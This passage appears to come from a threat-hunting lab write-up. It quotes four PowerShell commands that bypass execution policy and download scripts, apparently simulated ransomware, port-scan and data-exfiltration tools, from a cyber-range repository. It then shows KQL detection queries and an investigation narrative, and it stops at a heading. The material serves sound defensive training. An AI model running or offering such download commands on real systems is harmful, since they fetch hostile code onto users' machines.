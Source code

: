 ```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
```

I ran this query to find first occurrences:

```kql
let TargetHostname = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by Timestamp asc
```

While I noticed they’d been run everyday, the results stopped at 30 days prior.  This is consistent with our data retention limit of 30 days in Microsoft Defender for Endpoints.  I spoke with the employee who uses the machine to investigate what could have triggered these scripts being downloaded.  He explained that he had been downloading some updated work software at the start of the year over the course of several days from unofficial sources due to expired licensing.

 <img width="1414" alt="image" src="https://github.com/user-attachments/assets/ebcae9e0-df2c-48bc-853e-7d1607abc5e1">


I ran the following query to check whether scripts were executed:

```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by Timestamp asc
| project Timestamp, AccountName, DeviceName, FileName, ProcessCommandLine
```

#### Outcome

Scripts were executed multiple times on or before April 7, 2025.

---

### Script Function Summaries
